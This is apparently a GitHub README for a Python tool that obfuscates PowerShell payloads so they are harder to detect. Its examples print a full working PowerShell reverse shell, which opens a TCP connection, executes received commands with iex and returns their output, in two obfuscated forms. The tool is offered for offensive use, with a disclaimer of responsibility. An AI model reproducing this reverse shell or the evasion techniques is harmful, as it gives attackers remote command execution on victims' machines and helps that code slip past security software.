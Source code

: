 # auto_powershell_obfuscation - Beta

## Description

An automated tool for obfuscation of a powershell script.
This tool is for experimental purposes, I am not responsible for your actions.

## Usage

```
python3 obfuscator.py -f <YOUR_PAYLOAD> -m <MODE>
```

```powershell
PS C:\auto_powershell_obfuscation> python3 .\obfuscator.py -f .\test_payload.txt
Payload 

$var = $True;$var2 = $False;

New Payload 

$f75fc1bb5c6b4553a485859901a9128f = (9999 -eq 9999);$34a7d89f45c847fc8527e8c646d0f69b = !![bool]$null;
```

## Mode

### Var

**var** mode only changes the names of your variables according to the entropy rules.

```powershell
PS C:\auto_powershell_obfuscation> python .\obfuscator.py -m var -f .\payload.txt 

$4fe310251c7d4c8f937142076d281ce6 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181);$45cbaabdf14f45a191c972b6307a6abb = $4fe310251c7d4c8f937142076d281ce6.GetStream();[byte[]]$95c66e4518fc49bdbe1a369ca1fa4588 = 0..65535|%{0};while(($b9285b898cbe4628aa860f2608aa2195 = $45cbaabdf14f45a191c972b6307a6abb.Read($95c66e4518fc49bdbe1a369ca1fa4588, 0, $95c66e4518fc49bdbe1a369ca1fa4588.Length)) -ne 0){;$f26c594770184cb9ad926878184d061d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($95c66e4518fc49bdbe1a369ca1fa4588,0, $b9285b898cbe4628aa860f2608aa2195);$2031bb366ddb4bd0a88e411227464baa = (iex $f26c594770184cb9ad926878184d061d 2>&1 | Out-String );$5dc4676c22014043b312ff6e180ba5ff = $2031bb366ddb4bd0a88e411227464baa + 'PS ' + (pwd).Path + '> ';$5d584a8b541a4220b78f14b13a6c9ee9 = ([text.encoding]::ASCII).GetBytes($5dc4676c22014043b312ff6e180ba5ff);$45cbaabdf14f45a191c972b6307a6abb.Write($5d584a8b541a4220b78f14b13a6c9ee9,0,$5d584a8b541a4220b78f14b13a6c9ee9.Length);$45cbaabdf14f45a191c972b6307a6abb.Flush()};$4fe310251c7d4c8f937142076d281ce6.Close()
```

### Boolean

**boolean** mode replaces simple $True or $False with equivalent boolean expressions.

`$True` => `[bool]1254`

### Quote - Beta

**quote** mode will sprinkle your code with quotation marks where they don't disturb the flow (/!\ beware /!\ this mode is not completely finished, check that it works properly before using it)

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m quote -f .\payload.txt

$client = New-Object Sys""t''em.Net.Sockets.TCPClient('127.0.0.1',8181);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''ew-Object -TypeName Sy''st''em.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (p""wd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Entropy

**entropy** mode allows you to calculate the entropy of your payload.

```powershell
C:\auto_powershell_obfuscation> python .\obfuscator.py -m entropy -f .\payload.txt

5.265027259625534
```
